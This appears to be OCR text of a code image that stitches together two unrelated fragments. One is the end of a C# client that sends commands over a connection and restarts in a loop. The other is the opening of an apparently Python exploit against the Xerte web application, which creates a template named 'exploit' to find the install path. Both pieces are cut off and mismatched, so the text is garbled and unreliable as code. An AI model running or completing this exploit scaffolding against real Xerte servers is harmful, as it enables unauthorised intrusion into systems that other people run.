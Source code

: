 

                }
                else
                {
                    Console.WriteLine("[WARNING]: Client is Disconnected!");
                }
            ReadException:
                try
                {
                    Console.WriteLine("Command Variable Response: " + responseCMD);
                    Console.WriteLine(Encoding.UTF8.GetString(responseStorage) + " || " + responseCMD);
                    client.disConnect();
                }
                catch (Exception e)
                {
                    Console.WriteLine("After 4.2 Seconds, there has been no response!");
                    client.disConnect();
                }
            }).Start();

            Console.WriteLine(responseCMD);
            Console.ReadLine();

        }

        catch (Exception e)
        {
            Console.WriteLine(e);
            Console.ReadLine();

            //Environment.Exit(e.HResult);
        }

        goto FORCERESTART;
    }
}
 # Use a default template
data = {
    'tutorialid': 'Nottingham',
    'templatename': 'Nottingham',
    'tutorialname': 'exploit',
    'folder_id': ''
}

# Create a new project in order to find the install path
template_id = session.post(xerte_base_url + '/website_code/php/templates/new_template.php', data=data)

# Find template ID
data = {
    'template_id': re.findall('(\d+)', template_id.text)[0]
}
